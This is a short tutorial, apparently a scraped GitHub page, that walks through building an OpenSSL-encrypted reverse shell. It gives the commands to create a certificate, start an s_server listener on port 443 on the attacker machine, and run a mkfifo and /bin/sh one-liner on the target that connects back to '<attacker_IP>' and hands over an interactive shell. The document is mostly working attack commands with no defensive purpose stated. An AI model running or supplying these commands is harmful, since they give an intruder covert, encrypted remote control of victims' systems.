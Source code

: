 # openSSL reverse shell

What we need to do first, is to generate an SSL certificate key pair for our listener on the attacker machine. We can do that with the following command:

```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

This will create two files. A “key.pem” and “cert.pem” file. We’ll need those for our listener.

Next, we can start up our listener on the attacker machine using the openssl s\_server command while specifying our .pem files we created:

```
openssl s_server -quiet -key key.pem -cert cert.pem -port 443
```

That will start up an openSSL listener with our certificate and associated key on port 443.

Now, on our target system, we create our mkfifo named pipe as a file called “x” in /tmp in conjunction with an openssl s\_client –quiet –connect command that will connect back to our attacker machine, and give us a shell on the victim host (over SSL):

```
mkfifo /tmp/x; /bin/sh -i < /tmp/x 2>&1 | openssl s_client -quiet -connect <attacker_IP>:443 >/tmp/x; rm /tmp/x
```
